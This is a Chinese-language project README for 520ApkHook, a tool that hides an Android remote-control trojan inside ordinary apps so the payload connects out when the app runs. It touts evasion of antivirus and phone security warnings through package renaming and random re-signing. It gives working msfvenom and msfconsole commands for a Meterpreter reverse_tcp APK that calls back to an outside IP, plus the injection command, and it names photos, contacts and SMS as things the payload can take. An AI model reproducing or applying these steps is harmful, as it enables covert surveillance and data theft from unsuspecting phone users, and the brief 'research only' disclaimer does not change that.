 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo

## 版本升级

* 2024-07-02
  * 修复Linux运行bug，缺少so库文件。

* 2024-06-20
  * 修复各种bug。
  * 新增了改包模块，把payload apk的包名修改掉，去掉特征，避免被杀软识别。目前修改后效果不错，各安全管家、virustotal都不报毒。

* 2024-05-21
  * 修复了520apkhook的相关问题（app中文名报错、apk签名被标记。）

  * 新增了随机签名的功能，先获取原始app的相关签名信息，根据这些信息重新生成新的签名，签名密码每次都不一样，避免被标记。(有些app会无法识别签名信息，可以自己用jadx获取到app的签名信息，然后生成证书，使用[ApkSigner](https://github.com/jixiaoyong/ApkSigner)进行重新签名。华为目前还有问题，改签名也会被识别恶意app)

  * 更换了两个安卓虚拟机，[NewBlackbox](https://github.com/ALEX5402/NewBlackbox)、[SpaceCore](https://github.com/FSpaceCore/SpaceCore)。安卓版本支持到`5-14`。

  * 新增了`-b, --boxName`参数，用来指定`SpaceCore`还是`NewBlackBox`，默认SpaceCore，如果出现卡顿或者闪退，可以尝试切换到NewBlackBox。直接指定参数 `-b NewBlackBox` 即可。

* 2023-06-05
  * 上版本忘记添加32位app支持，此次升级加入32位app支持。更换了虚拟机项目依赖，稳定性更好一下。

  * 支持安卓5-12版本，不支持最新的安卓13。

  * 问题1、目前有问题的app，微信、ES文件浏览器。

  * 问题2、被注入的app读取到的文件、图片、通讯录、短信是虚拟机的内容，但是注入的payload获取到的是实体机的内容。


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.2.1-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v1.2/a520ApkHook-1.2.1-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j
```
4. 520ApkHook

> msf由于加载机制问题，需要`-o`参数，才可以获取照片、通讯录、短信等。
>
> 如果在运行app时，提示版本太老、一堆权限提示，可以把`-o`去掉，但是权限会出问题。

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar -o ~/Downloads/想进行注入的App.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 推荐搭配`AhMyth`，配在一起贼爽。

> 使用AhMyth时，不需要添加`-o`参数，不然app会提示版本太老，一堆权限提示太假。
>
> [https://github.com/Morsmalleo/AhMyth](https://github.com/Morsmalleo/AhMyth)


## BUG

* 使用SpaceCore作为基础容器，能运行90%的app，但可能会出现app不流畅。
* 使用NewBlackBox作为基础容器，目前测试不能在模拟器中运行，微信无法启动。
* 其他未测试...

## 项目依赖

* 本项目参考以下项目
* [https://github.com/ALEX5402/NewBlackbox](https://github.com/ALEX5402/NewBlackbox)
* [https://github.com/FSpaceCore/SpaceCore](https://github.com/FSpaceCore/SpaceCore)


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .



## Start 曲线

[![Start 曲线](https://starchart.cc/ba0gu0/520apkhook.svg)](https://starchart.cc/ba0gu0/520apkhook)
